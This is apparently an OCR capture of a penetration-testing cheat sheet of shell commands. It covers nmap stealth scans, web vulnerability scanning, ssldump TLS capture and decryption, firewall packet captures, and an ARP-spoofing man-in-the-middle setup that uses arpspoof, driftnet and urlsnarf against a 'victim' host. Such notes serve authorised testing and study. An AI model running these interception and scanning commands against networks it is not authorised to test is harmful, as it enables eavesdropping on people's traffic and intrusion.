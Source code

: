 nmap -sN 192.168.100.11 #TCP Null scan Does not set any bits (TCP flag header is 0)
nmap -sF 192.168.100.11 #FIN scan (-sF) Sets just the TCP FIN bit.
nmap -sW -T4 docsrv.caldera.com #TCP Window Scan

#identify a web application firewall
nmap --script=http-waf-fingerprint targetwebsite.com
----------------------------------------------------------------------------------------------------
#web vulnerability scanner
uniscan -u http://192.169.42.3 -qweds
ls /usr/share/uniscan/report/
192.169.42.3.html 

#set 5000 byte packet size
ping -l 5000 192.169.42.3 -n 1
#source routing
ping -j 192.169.42.3 8.8.8.8
#source routing  linux-based routers
sysctl -w net.ipv4.conf.<interface>.accept_source_route=1
#FreeBSD (pfSense) 
sysctls net.inet.ip.sourceroute and net.inet.ip.accept_sourceroute
----------------------------------------------------------------------------------------------------
ssldump -A -d -i eth0
ssldump -i le0 port 443
ssldump -i le0 port 443 and host 192.169.42.3
ssldump -Ad -k ~/server.pem -p foobar -i le0 host exch #decrypt traffic to to host exch server.pem and the password foobar
#wget -p https://192.169.42.3/ -O /dev/null
ssldump  port 443 and host 192.169.42.3
----------------------------------------------------------------------------------------------------
#Saving fw monitor logs to a .pcap file to analyse in wireshark
#Use WinSCP to access the Security Gateway and copy the file to your local drive to analyze it in Wireshark
fw monitor -e 'accept (src=10.1.1.1 and dst=20.2.2.2) or (src=20.2.2.2 and dst=10.1.1.1);' -m iIoO -o wireshark.pcap
fw monitor -e 'accept (src=192.167.4.244 and dst=193.140.12.215) or (src=193.140.12.215 and dst=192.167.4.244 );' -m iIoO -o wireshark1.pcap

start Wireshark from the command line.
$ wireshark -r test.pcap

#scenario #1
#machine acts as a router    
sysctl -w net.ipv4.ip_forward=1
arpspoof -i [Network Interface Name] -t [Victim IP] [Router IP]
arpspoof -i wlan0 -t 192.000.000.52 192.000.000.1
arpspoof -i [Network Interface Name] -t [Router IP] [Victim IP]
arpspoof -i wlan0 -t 192.000.000.1 192.000.000.52
#listens to network traffic and picks out images from TCP streams it observes
driftnet -i [Network Interface Name]
#sniffs HTTP requests in Common Log Format
urlsnarf -i [Network interface name]

